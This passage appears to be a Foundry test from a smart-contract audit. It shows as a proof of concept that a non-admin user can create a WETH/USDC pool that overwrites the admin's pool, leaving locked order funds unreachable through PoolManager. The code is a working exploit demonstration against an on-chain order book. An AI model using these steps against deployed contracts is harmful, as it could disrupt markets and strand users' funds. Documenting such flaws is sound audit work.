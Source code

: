 ```solidity
    // Verify funds locked in admin OrderBook
    uint256 lockedWETH = balanceManager.getLockedBalance(user, address(adminOrderBook), weth);
    assertEq(lockedWETH, 5 ether, "WETH should be locked in admin OrderBook");

    // VULNERABILITY: Regular users can create pools with the same currency pair
    address regularUser = address(0x999);
    vm.startPrank(regularUser);

    // Regular users create pools with different rules.
    IOrderBook.TradingRules memory flexibleRules = IOrderBook.TradingRules({
        minTradeAmount: 1e16,     // 0.01 WETH minimum (more flexible)
        minAmountMovement: 1e15,  // 0.001 WETH movement
        minPriceMovement: 1e6,    // 1 USDC movement
        minOrderSize: 10e6        // 10 USDC minimum
    });

    // PROOF: Pool creation was successful without error
    PoolId userPool = poolManager.createPool(weth, usdc, flexibleRules);

    vm.stopPrank();

    // PROOF: Pool ID is the same (pool overwritten) - Convert PoolId to bytes32 for comparison
    assertEq(PoolId.unwrap(adminPool), PoolId.unwrap(userPool), "Pool IDs should be identical");

    // PROOF: Different OrderBook (admin pool overwritten)
    IOrderBook newOrderBook = poolManager.getPool(poolManager.createPoolKey(weth, usdc)).orderBook;
    assertNotEq(address(adminOrderBook), address(newOrderBook), "OrderBooks should be different");

    // CRITICAL: User cannot access orders via PoolManager (orders are in the old OrderBook)
    vm.startPrank(operator);

    // Trying to cancel an order via the new OrderBook will fail.
    vm.expectRevert();
    newOrderBook.cancelOrder(orderId, user);

    vm.stopPrank();

    // CRITICAL: Funds are still locked in the old OrderBook which is not accessible
    assertEq(lockedWETH, 5 ether, "Funds still locked in old OrderBook");

    // PROOF: Old OrderBook still exists on the blockchain but is not accessible via PoolManager
    // Users can directly access the old OrderBook if they know the address.
    vm.startPrank(operator);
    adminOrderBook.cancelOrder(orderId, user); // This works because of direct access.
    vm.stopPrank();

    // Verify funds successfully unlocked after direct access
    uint256 unlockedWETH = balanceManager.getLockedBalance(user, address(adminOrderBook), weth);
    assertEq(unlockedWETH, 0, "Funds should be unlocked after direct access");
}
```
